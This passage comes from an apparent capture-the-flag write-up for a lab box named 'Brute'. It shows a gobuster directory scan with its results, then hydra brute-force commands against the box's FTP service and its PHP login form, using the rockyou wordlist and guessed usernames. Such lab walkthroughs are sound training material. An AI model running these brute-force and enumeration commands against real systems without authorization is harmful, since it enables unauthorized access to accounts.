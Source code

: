 <br>

### Gobuster Scan

`gobuster dir -u http://10.10.111.4 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/config.php           (Status: 200) [Size: 0]  
/index.php            (Status: 200) [Size: 1080]
/logout.php           (Status: 200) [Size: 1080]
```

<br>

## FTP Digging

Anonymous access isn't allowed.

Given the name of the CTF is brute I'm going to guess that brute forcing has something to do with it, so I start up **hydra** to see if I can brute forcemy way in:

`hydra -l root -P rockyou.txt 10.10.111.4 ftp -V`

No luck there. I try the same thing with the username of **brutus** since that's listed in the CTF title. That didn't work either so I move on to a few other characters from the Popeye show:
- **popeye**
- **olive**
- **wimpy**
- **pappy**
- **sweepea**

<br>

## Website Digging

Visiting the main page:

![](images/brute1.png)

More brute forcing:

`hydra -l admin -P rockyou.txt 10.10.111.4 http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password." -V`
